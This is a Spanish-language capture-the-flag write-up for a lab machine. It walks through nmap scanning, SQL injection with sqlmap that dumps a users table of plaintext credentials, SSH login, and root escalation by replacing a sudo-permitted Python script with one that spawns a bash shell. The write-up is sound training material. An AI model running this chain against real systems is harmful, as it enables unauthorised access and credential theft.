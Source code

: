 ===ENUMERACIÓN===

Empezaremos lanzando un nmap a la ip de la máquina objetivo 

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.18.0.2
```

Y este es el resultado:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP8i149J/z+cyzaGJoDVXl5AHyo4BO3C5DzkkWxzNaB77Kpz4si3PNs2uorTw1yztfmGmCA8NIWeW+TAybx57ok=
|   256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINpY2NxmXtsHt71QdxZpHfmnjsqGymscWq6lf4kbIkVk
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: User Search
|_http-server-header: Apache/2.4.59 (Debian)
```

===EXPLOTACIÓN===

Iremos al puerto 80, la página web, donde vemos una web para buscar usuarios.

Al hacer una inyección sql manual no conseguimos explotarlo, probemos con *sqlmap*:

```
sqlmap --url http://172.18.0.2/ --dbs --forms --batch

[20:36:39] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] testdb
```

Nos saca la base de datos *testdb* , iremos por ahí para seguir sacando información. Ejecutamos el siguiente comando para ver que contiene:

```
sqlmap --url http://172.18.0.2/ -D testdb  --tables --forms --batch

[20:39:52] [INFO] fetching tables for database: 'testdb'
Database: testdb
[1 table]
+-------+
| users |
+-------+
```

Nos saca la tabla users, seguiremos haciendo inyecciones sql por aquí.
Con el siguiente comando veremos las columnas de la tabla users:

```
sqlmap --url http://172.18.0.2/ -D testdb -T users --columns --form --batch

Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+
```

Parece que vamos bien, ahora vamos a terminar la explotación sacando el contenido de estas dos columnas:

```
sqlmap --url http://172.18.0.2/ -D testdb -T users -C username,password --dump --columns --tables --forms --batch

Table: users
[3 entries]
+----------+---------------+
| username | password      |
+----------+---------------+
| admin    | adminpassword |
| user1    | user1password |
| kvzlx    | kvzlxpassword |
+----------+---------------+
```

Ahora al tener credenciales, probaremos entrar por ssh, he intentado acceder empezando por el usuario *admin* pero el único que tiene acceso por ssh es el usuario *kvzlx*

```
ssh kvzlx@172.18.0.2
```

===ESCALADA DE PRIVILEGIOS===

Para la escalada de privilegios siempre opto por hacer primero *sudo -l* y esta vez tuvimos suerte:

```
kvzlx@a590b61b572c:~$ sudo -l
Matching Defaults entries for kvzlx on a590b61b572c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on a590b61b572c:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py
```

Vemos que podemos ejecutar con python3 como root el script que se encuentra en la home de kvzlx. Vamos a ver que contiene dicho script:

```
import psutil


def print_virtual_memory():
    vm = psutil.virtual_memory()
    print(f"Total: {vm.total} Available: {vm.available}")


if __name__ == "__main__":
    print_virtual_memory()
```

Nada por lo que yo vea que me interesa. No tenemos permisos de escritura. Pero si tenemos permisos de escritura en la home de kvzlx. Por tanto vamos a cambiar el nombre del script que viene y crearemos nuestro propio script para que nos devuelva una bash como root:

```
mv /home/kvzlx/system_info.py /home/kvzlx/original.py
```

Ahora con echo creamos un script para poder ejecutarlo y que nos de la shell de root:

```
echo 'import os; os.system("/bin/bash")' > /home/kvzlx/system_info.py
```

Este script lo hemos sacado de gtfobins, al tener poder ejecutar como root python3.
Ahora ejecutamos el script:

```
kvzlx@a590b61b572c:~$ sudo /usr/bin/python3 /home/kvzlx/system_info.py

root@a590b61b572c:/home/kvzlx# whoami
root
```

Y finalmente pwned ;)
